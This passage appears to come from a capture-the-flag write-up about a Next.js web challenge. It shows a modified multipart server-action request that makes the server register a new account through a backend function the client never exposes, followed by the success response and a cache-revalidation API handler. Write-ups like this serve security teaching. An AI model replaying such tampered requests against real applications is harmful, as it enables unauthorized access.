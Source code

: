 ```
[{"success":false,"error":null}]
------geckoformboundary52ee8d2f1fb48ea549e2e780d3661aff
Content-Disposition: form-data; name="1_$ACTION_KEY"

k852555183
------geckoformboundary52ee8d2f1fb48ea549e2e780d3661aff
Content-Disposition: form-data; name="1_username"

vozec
------geckoformboundary52ee8d2f1fb48ea549e2e780d3661aff
Content-Disposition: form-data; name="1_password"

Vozec123!XXX
------geckoformboundary52ee8d2f1fb48ea549e2e780d3661aff
Content-Disposition: form-data; name="0"

[{"success":false,"error":null},"$K1"]
------geckoformboundary52ee8d2f1fb48ea549e2e780d3661aff--
```

After the modification, the server interprets the request as an attempt to register an account rather than login. The presence of the backend registration function ensures that, despite no client-side form being available, the API endpoint processes account creation. 
Executing this change allows you to successfully register a new account on the platform: `vozec` / `Vozec123!XXX`

```json
0:{"a":"$@1","f":"","b":"c18-MFoC-fqxM_ozCO9Q-"}
1:{"success":true}
```

# Exploring API Endpoints 

As you interact with the application's backend, you discover two crucial API endpoints: 

- `/api/revalidate`
This endpoint's role is to refresh the cache of a particular page or the entire site. Here's the relevant code snippet: 
```js
export default async function handler(req, res) {
    try {
        await res.revalidate("/");
        return res.status(200).json({
            revalidated: true,
            timestamp: new Date().toISOString(),
            message: "Cache revalidated successfully",
        });
    } catch (err) {
        return res.status(500).json({
            revalidated: false,
            message: "Error revalidating cache",
            error: err.message,
        });
    }
}
```


[//]: <> (Wrote By Vozec 27/04/2025)